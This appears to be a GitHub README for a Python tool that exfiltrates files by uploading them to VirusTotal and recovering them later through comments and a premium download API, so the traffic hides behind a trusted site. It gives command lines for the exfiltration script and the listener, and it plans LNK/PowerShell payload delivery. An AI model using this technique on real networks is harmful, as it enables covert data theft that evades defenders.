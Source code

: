 # VT-Not-So-Pretty

Python data exfiltration tool that uses VirusTotal as its infrastructure.

As defenders we are often overwhelmed by the sheer amount of network traffic in a network and overlook traffic made to well known trusted sites without any known suspicious functionalities (like file/software sharing sites). And what other site is more well known and trusted to defenders them virustotal.  

My main goal was to use virustotal upload and download functionalities to transfer files back and forth without the need to use our own infrastructure, and breaking the diamond model from the defenders perspective. 

## Usage Example
The tool is pretty simple just provide it a path, your VT API key, and a hash of a file (already uploded to VT) to which you want the hashes of the files exfiltrated to be written, to be able to download then later on.    

```
python .\Vt-Not-So-Pretty.py -f "PATH_TO_EXFIL" -k YOUR_API_KEY -c HASH_TO_COMMENT_ON
```
Alternatively you can enter this when prompted:

![Vy-Not-So-Pretty](https://github.com/user-attachments/assets/780fec17-50da-4aef-a91e-d3682be5c573)


After done uploading the files to VT all you have to do is just run listener as follow:

```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON"
```
Or you can also enter this when prompted:

![image](https://github.com/user-attachments/assets/9b8454a3-d486-4ef8-866d-a1b53a21c081)

## Main Drawbacks:

1. The file size to transfer are limited to 650 MB per file - Could be solved with proper files splitting and compression.

2. Premium Subscription - In order to download files from VT premium subscription is needed, which could be pretty expensive.

## Disclaimer

This is an ongoing project, and in the future, I am planning to add more tools to it, for other uses as well, like for delivey using LNK files that contain a powershell code that download (or read in memory) file from VT and runs them on the target host.

## Upcoming updates:
Changing the endpoint to upload file larger then 35 MB.

